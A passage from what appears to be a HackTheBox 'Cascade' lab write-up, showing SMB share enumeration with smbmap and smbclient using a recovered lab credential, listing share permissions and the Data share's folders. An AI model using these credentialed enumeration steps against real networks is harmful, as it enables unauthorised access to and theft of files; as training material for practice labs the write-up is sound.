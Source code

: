 ```bash
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 

```

And it did! I had read permissions for the shares and the one that stood out was the `Data` share.

I checked out whether I was able to have the same visibility using `smbmap` too:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.182:445        Name: cascade.local             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
                                                                                                                                                                                                                                                            
```

There’s a bunch of files in each of the shares I have access to. I use the following commands to just pull all the files in each share (Data for example):

```bash
                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ smbclient --user r.thompson //10.10.10.182/data rY4n5eva
Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                6553343 blocks of size 4096. 1625339 blocks available

```
